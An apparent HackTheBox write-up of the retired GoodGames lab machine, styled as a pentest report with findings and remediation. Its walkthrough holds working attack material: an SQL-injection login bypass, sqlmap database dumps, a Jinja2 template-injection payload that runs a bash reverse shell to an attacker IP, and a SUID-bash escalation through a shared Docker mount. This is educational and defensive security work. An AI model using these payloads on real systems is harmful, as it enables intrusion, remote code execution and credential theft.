









# GoodGames — HackTheBox Report

| Difficulty | OS    | Category |
| ---------- | ----- | -------- |
| Easy       | Linux | Web      |

> Writeup of a retired GoodGames machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. Virtual Host Discovery](#12-virtual-host-discovery)
  * [2.1. Web Application Enumeration & Initial Foothold](#21-web-application-enumeration--initial-foothold)
  * [2.2. Database Enumeration with sqlmap](#22-database-enumeration-with-sqlmap)
  * [2.3. Hash Cracking](#23-hash-cracking)
  * [3.1. Initial Foothold](#31-initial-foothold)
  * [3.2. Internal Subdomain Discovery](#32-internal-subdomain-discovery)
  * [4.1. Vulnerability Discovery](#41-vulnerability-discovery)
  * [4.2. Exploitation](#42-exploitation)
  * [5. Docker Container Discovery](#5-docker-container-discovery)
  * [6.1. SSH Access](#61-ssh-access)
  * [6.2. Root Escalation via Shared Mount](#62-root-escalation-via-shared-mount)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `GoodGames / IP: 10.129.96.71`
**Platform:** `HackTheBox`
**Date Completed:** `September 08, 2026`
**Assessment Type:** `Web Application`
**Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was tasked to perform a web penetration test against the Hack The Box GoodGames target environment, with testing focused on `goodgames.htb`, `internal-administration.goodgames.htb`, and associated in-scope systems. The objective was to evaluate the security posture of the public-facing application, identify exploitable weaknesses, and determine whether an attacker could gain unauthorized access to internal resources.

The assessment identified multiple security weaknesses affecting the target environment, including issues related to insecure configuration and application security controls. By chaining these weaknesses, Pheenix Security was able to compromise the GoodGames Linux host and achieve elevated privileges on the system. This demonstrated that a motivated attacker could exploit the identified vulnerabilities to gain unauthorized access and further impact internal lab resources.

Overall, the results indicate a high-risk exposure within the assessed environment. The successful compromise shows that existing controls were insufficient to prevent exploitation of publicly accessible services and subsequent access to internal systems. Immediate remediation should focus on correcting the identified application flaws, hardening system configurations, and validating fixes through follow-up testing.

---

## Scope

| Host / URL / IP Address                                                            | Description                         |
| ------------------------------------------------------------------------------------ | ------------------------------------ |
| `GoodGames / goodgames.htb / internal-administration.goodgames.htb / 10.129.96.71` | `Target machine — Linux web server` |

> Testing was restricted to the host(s) listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

This assessment followed a standard penetration testing methodology:

1. **Reconnaissance** — passive/active information gathering on the target.
2. **Scanning & Enumeration** — port/service discovery and fingerprinting.
3. **Vulnerability Analysis** — identifying exploitable misconfigurations or CVEs.
4. **Exploitation** — gaining an initial foothold.
5. **Privilege Escalation** — moving from low-privilege access to admin/root.
6. **Post-Exploitation** — validating impact, capturing flags/evidence, cleanup.

---

## Tools Used

| Tool           | Purpose                                           |
| -------------- | -------------------------------------------------- |
| `Nmap`         | Port scanning / service enumeration               |
| `Burp Suite`   | Web request interception/manipulation             |
| `CrackStation` | Online hash lookup service                        |
| `SQLMap`       | Automated SQL Injection vulnerability detection   |

---

## Assessment Summary (Findings Overview)

The assessment identified multiple weaknesses that could be chained to achieve full compromise of the target environment. Public-facing application flaws enabled unauthorized access, and subsequent credential and privilege management weaknesses allowed progression to remote code execution and elevated access. Based on the demonstrated attack path, the overall risk to the assessed environment is **Critical**.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 3     |
| High          | 1     |
| Medium        | 1     |
| Low           | 0     |
| Informational | 0     |

| # | Severity   | Finding Name                                                           |
| - | ---------- | ----------------------------------------------------------------------- |
| 1 | Critical | Authentication Bypass via SQL Injection                                 |
| 2 | Critical | Server-Side Template Injection Leading to Remote Code Execution         |
| 3 | High     | Insecure Password Storage Using MD5                                     |
| 4 | High     | Privilege Escalation via Misconfigured Docker/Local User Permissions    |
| 5 | Medium   | Password Reuse Across Accounts                                          |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to final compromise, step by step, with commands and evidence. Sensitive lab credentials are redacted; lab IPs are shown as they pose no external risk.

### 1.1. Reconnaissance

```
sudo nmap 10.129.96.71
```

**Findings:** Port 80 open, running a Python 3.9.2 web application.

### 1.2. Virtual Host Discovery

Inspected the page footer and identified the domain `goodgames.htb`. Added to `/etc/hosts`:

```
echo "10.129.96.71 goodgames.htb" | sudo tee -a /etc/hosts
```

---

### 2.1. Web Application Enumeration & Initial Foothold

Tested the login form for SQL injection using Burp Suite.

```
admin' or 1=1 -- -
```

**Indicator of vulnerability:** Authentication was bypassed without valid credentials, evidenced by the "Login Success" response and redirect to `/profile`.

---

### 2.2. Database Enumeration with sqlmap

Saved the raw HTTP request from Burp Suite (`goodgames.req`) and ran:

```
sqlmap -r goodgames.req
sqlmap -r goodgames.req --dbs
sqlmap -r goodgames.req -D main --tables
sqlmap -r goodgames.req -D main -T user --dump
```

**Findings:** Discovered the `admin` user with an MD5 password hash:

```
2b22337f218b2d82dfc3b6f77e7cb8ec
```

---

### 2.3. Hash Cracking

Cracked the MD5 hash using [CrackStation](https://crackstation.net/) (weak/unsalted hash, present in a common wordlist).

**Cracked password:** `[REDACTED]`

---

### 3.1. Initial Foothold

Logged into `goodgames.htb` with the recovered admin credentials.

### 3.2. Internal Subdomain Discovery

Clicked the settings cog and identified a reference to:

```
internal-administration.goodgames.htb
```

Added to `/etc/hosts` for resolution:

```
sudo sed -i 's/goodgames.htb/goodgames.htb internal-administration.goodgames.htb/g' /etc/hosts
```

---

### 4.1. Vulnerability Discovery

On the internal admin panel, the **Full Name** field on the profile page reflected input in a way consistent with server-side template injection.

```
{{7*7}}
```

**Result:** Field rendered `49`, confirming SSTI.

---

### 4.2. Exploitation

**RCE payload:**

```
echo -ne 'bash -i >& /dev/tcp/10.10.14.111/1234 0>&1' | base64
nc -lvnp 1234
```

```
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}<base64_reverse_shell_payload>${IFS}|base64${IFS}-d|bash').read()}}
```

Achieved remote code execution and captured `user.txt`:

```
ls /home
cd /home/augustus
cat user.txt
```

---

### 5. Docker Container Discovery

Enumerated the filesystem and identified that user `augustus`'s home directory was bind-mounted inside a Docker container.

**Discovery method:**

```
ls -la /home/augustus
ifconfig
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```

The listing revealed files owned by UID `1000`, which did not resolve to a username on the host system — indicating the files were created by a process running in a different user namespace, consistent with a Docker bind mount. This was later confirmed when enumeration revealed a separate container instance exposing ports 22 and 80.

---

### 6.1. SSH Access

Reused the admin password (credential reuse) to SSH into the container as `augustus`:

```
script /dev/null bash
ssh augustus@172.19.0.1
```

---

### 6.2. Root Escalation via Shared Mount

The container's home directory for `augustus` was bind-mounted from the host filesystem, meaning files were shared between both environments.

```
cp /bin/bash .
exit

chown root:root bash
chmod 4755 bash

ssh augustus@172.19.0.1
ls -la bash
./bash -p
cd root
cat root.txt
```

Because the mount point was shared, the ownership and SUID changes made on the host were immediately reflected inside the container. Re-entering the container as `augustus` and executing `./bash -p` invoked the SUID-root binary, spawning a root shell inside the container and allowing capture of `root.txt`.

---

## Technical Findings Details

### 1. SQL Injection (Authentication Bypass) — Critical

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-89: Improper Neutralization of Special Elements used in an SQL Command |
| **CVSS 3.1 Score** | 9.8 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **Description (Incl. Root Cause)** | The login form at `/login` failed to sanitize or parameterize user-supplied input before inserting it into a backend SQL query. Submitting `admin' or 1=1 -- -` as the email value altered the query's logic, causing the WHERE clause to always evaluate true and commenting out the password check entirely. The root cause is direct string concatenation of user input into a raw SQL statement rather than use of parameterized queries or an ORM. |
| **Security Impact** | An unauthenticated attacker can bypass authentication entirely without valid credentials, log in as any user (including admin), and — as demonstrated — use sqlmap to dump the full contents of the backend database, including user credentials and password hashes. |
| **Affected Host(s)** | `10.129.96.71:80` (`/login`) |
| **Remediation** | - Use parameterized queries / prepared statements for all database interactions<br>- Adopt an ORM that enforces safe query construction by default<br>- Apply input validation/allow-listing on the email field as defense-in-depth<br>- Implement a WAF rule set to catch common SQLi patterns as a compensating control |
| **References** | [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection) · [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) |

**Evidence:**
```
admin' or 1=1 -- -
```

---

### 2. Server-Side Template Injection (Remote Code Execution) — Critical

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine |
| **CVSS 3.1 Score** | 9.9 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` |
| **Description (Incl. Root Cause)** | The "Full Name" field on the internal-administration user profile page passed user input directly into a `render_template_string` call without sanitization or sandboxing. Submitting `{{7*7}}` returned `49`, confirming the input was evaluated as template code rather than rendered as plain text. The root cause is rendering untrusted input as executable template syntax rather than treating it strictly as display data. |
| **Security Impact** | An authenticated attacker (e.g., one who obtained credentials via the SQLi above) can achieve arbitrary remote code execution on the underlying server, escalating from a web application vulnerability to full host compromise. This was used to capture `user.txt`. |
| **Affected Host(s)** | `internal-administration.goodgames.htb:80` |
| **Remediation** | - Never render user-controlled input as template syntax; treat all profile fields as plain-text data<br>- If dynamic templating of user content is required, use a sandboxed/logic-less templating mode<br>- Apply strict input validation and length/character restrictions on profile fields<br>- Run the web application with least-privilege OS permissions to limit blast radius of RCE |
| **References** | [PortSwigger: Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection) · [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) |

**Evidence:**
```
{{7*7}}
→ Rendered output: 49
```








---

### 3. Weak, Unsalted Password Hashing — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-916: Use of Password Hash With Insufficient Computational Effort |
| **CVSS 3.1 Score** | 7.5 (High) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **Description (Incl. Root Cause)** | User passwords, including the admin account, were stored using unsalted MD5 hashes. MD5 is a fast, cryptographically broken hashing algorithm not designed for password storage, and the absence of a per-user salt makes hashes vulnerable to precomputed rainbow tables and online cracking services. The admin's hash was cracked within seconds using CrackStation. |
| **Security Impact** | Once a database is exfiltrated (e.g., via the SQLi above), an attacker can trivially recover plaintext passwords, enabling account takeover and credential reuse against other services (see Finding 5). |
| **Affected Host(s)** | `10.129.96.71:80` (application database — user credential table) |
| **Remediation** | - Rehash all stored credentials using a slow, salted algorithm such as bcrypt, Argon2, or scrypt<br>- Enforce a minimum work factor/cost parameter appropriate to current hardware<br>- Force a password reset for all existing users after migrating hashing schemes |
| **References** | [OWASP: Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html) |

**Evidence:**
```
sqlmap -r goodgames.req -D main -T user --dump
→ admin : 2b22337f218b2d82dfc3b6f77e7cb8ec
```



---

### 4. Insecure Docker Bind Mount Leading to Privilege Escalation — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-668: Exposure of Resource to Wrong Sphere |
| **CVSS 3.1 Score** | 8.4 (High) — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` |
| **Description (Incl. Root Cause)** | The home directory of user `augustus` was bind-mounted between the host and a Docker container without UID remapping, the `nosuid` mount flag, or read-only restrictions. Because the mounted path was shared at the filesystem level, permission and ownership changes made by root on the host were immediately reflected inside the container. This allowed a root-level actor on the host to plant a SUID-root binary (`bash`) inside the shared mount, which the unprivileged container user could then execute to gain a root shell inside the container. |
| **Security Impact** | An attacker with a foothold as an unprivileged user in the container, combined with the ability to influence or await host-side root activity on the shared path, can escalate to root within the container. More broadly, this misconfiguration breaks the isolation boundary Docker is meant to provide between host and container. |
| **Affected Host(s)** | Docker container instance (`172.19.0.1`) — `augustus` home directory mount |
| **Remediation** | - Avoid bind-mounting host directories into containers unless strictly necessary<br>- Apply the `nosuid` mount option to any shared volumes to prevent SUID binaries from being honored<br>- Enable Docker user namespace remapping so container root ≠ host root<br>- Use read-only mounts (`ro`) where write access from the container is not required |
